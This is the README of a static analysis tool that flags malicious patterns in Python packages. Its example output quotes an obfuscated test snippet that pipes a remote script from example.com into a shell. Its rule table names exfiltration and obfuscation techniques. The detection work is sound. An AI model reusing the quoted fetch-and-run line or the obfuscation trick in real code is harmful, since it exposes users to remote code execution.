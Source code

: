 # hexora

Hexora is a static analysis tool designed to detect malicious and harmful patterns in Python code.

It can be used to:

- Audit project dependencies to catch potential supply-chain attacks
- Detect malicious scripts found on platforms like Pastebin, GitHub, or open directories
- Analyze IoC files from past security incidents
- Audit new packages uploaded to PyPi.


<img width="600" alt="Hexora example" src="docs/example.gif">


# Examples

For output examples, please see [docs/examples.md](docs/examples.md) file.

# Installation

## Using Python

Requires Python 3.9+.

```bash
pip install hexora
```

Using uv:
```bash
uv tool install hexora
```

# Usage


```bash
hexora --help
```

## Audit single file

```bash 
>  hexora audit test.py

warning[HX2000]: Reading from the clipboard can be used to exfiltrate sensitive data.
  ┌─ resources/test/test.py:3:8
  │
1 │ import pyperclip
2 │
3 │ data = pyperclip.paste()
  │        ^^^^^^^^^^^^^^^^^ HX2000
  │
  = Confidence: High
    Help: Clipboard access can be used to exfiltrate sensitive data such as passwords and keys.
    
warning[HX3000]: Possible execution of unwanted code
   ┌─ resources/test/test.py:20:1
   │
19 │ (_ceil, _random, Math,), Run, (Floor, _frame, _divide) = (exec, str, tuple), map, (ord, globals, eval)
20 │ _ceil("import subprocess;subprocess.call(['curl -fsSL https://example.com/b.sh | sh'])")
   │ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ HX3000
   │
```


## Audit directory

```bash
hexora audit --output-format terminal resources/test/
```


## Audit packages from virtual environment

```bash
hexora audit --exclude HX5020,HX5030,HX5040,HX5050,HX5060 --min-confidence high .venv/lib/python3.11/site-packages/ 
```

Where `python3.11` is the version of the Python in virtual environment.

Tips:

- Use `--exclude` to suppress certain rule codes (e.g., noisy imports) for a given run
- Use `--min-confidence` to focus on high-confidence findings only.

Confidence indicates how certain a piece of code is malicious.
Some of the libraries are used for legit purposes, and it's hard to distinguish legit use-cases from malicious ones.
That's why some of the matches have a low confidence level.

## Usage in Python

```python
>>> import hexora
>>> results = hexora.audit_path("/Projects/hexora/resources/test/")
>>> len(results)
15
>>> results[0]
{'items': [{'confidence': 'low',
            'description': 'pyperclip can be used to copy and paste data from '
                           'the clipboard.',
            'label': 'pyperclip',
            'location': (7, 16),
            'rule': 'HX5010'},
           {'confidence': 'high',
            'description': 'Reading from the clipboard can be used to '
                           'exfiltrate sensitive data.',
            'label': 'pyperclip.paste',
            'location': (25, 42),
            'rule': 'HX2000'}],
 'path': '/Projects/hexora/resources/test/clipboard_01.py'}
>>> # Single file audit
>>> result = hexora.audit_file("/Projects/hexora/resources/test/clipboard_01.py")
>>> ...
 ```

## Available rules

New rules are added regularly.

Right now, the following rules are available:
| Code | Name | Description |
|---|---|---|
| HX1000 | AppEnumeration | Suspicious application enumeration. |
| HX1010 | BrowserEnumeration | Suspicious browser enumeration (apps, cookies, history, etc.). |
| HX1020 | PathEnumeration | Suspicious path enumeration. |
| HX2000 | ClipboardRead | Reading from the clipboard. |
| HX2010 | EnvAccess | Access to a sensitive environment variable. |
| HX3000 | CodeExec | Possible code execution. |
| HX3010 | ShellExec | Execution of a shell command. |
| HX3020 | DunderShellExec | Execution of a shell command via `__import__`. |
| HX3030 | DunderCodeExec | Execution of code via `__import__`. |
| HX3040 | DLLInjection | Possible DLL injection. |
| HX4000 | ObfuscateShellExec | Execution of an obfuscated shell command. |
| HX4010 | ObfuscatedCodeExec | Execution of obfuscated code. |
| HX4020 | ObfuscatedDunderShellExec | Execution of an obfuscated shell command via `__import__`. |
| HX4030 | ObfuscatedDunderCodeExec | Execution of obfuscated code via `__import__`. |
| HX5000 | DunderImport | Suspicious use of `__import__`. |
| HX5010 | SuspiciousImport | Suspicious import. |
| HX5020 | CtypesImport | Suspicious ctypes import. |
| HX5030 | PickleImport | Suspicious pickle import. |
| HX5040 | StructImport | Suspicious struct import. |
| HX5050 | SocketImport | Suspicious socket import. |
| HX5060 | MarshalImport | Suspicious marshal import. |
| HX6000 | Base64String | Long Base64-encoded string detected; possible code obfuscation. |
| HX6010 | HexedLiterals | List of hex-encoded literals detected; possible payload. |
| HX6020 | HexedString | Long hex-encoded string detected; possible payload. |
| HX6030 | IntLiterals | Large list of integer literals detected; possible code obfuscation. |
| HX6040 | CVEInLiteral | Literal contains a CVE identifier. |
| HX6050 | SuspiciousLiteral | Suspicious literal detected; possible data enumeration. |
| HX6060 | PathTraversal | Suspicious path traversal. |
| HX7000 | SuspiciousFunctionName | Suspicious function name. |
| HX7010 | SuspiciousParameterName | Suspicious parameter name. |
| HX7020 | SuspiciousVariable | Suspicious variable name. |
| HX8000 | BinaryDownload | Suspicious binary download. |


## Credits

For parsing, we use AST parser from [ruff](https://github.com/astral-sh/ruff/tree/main) library.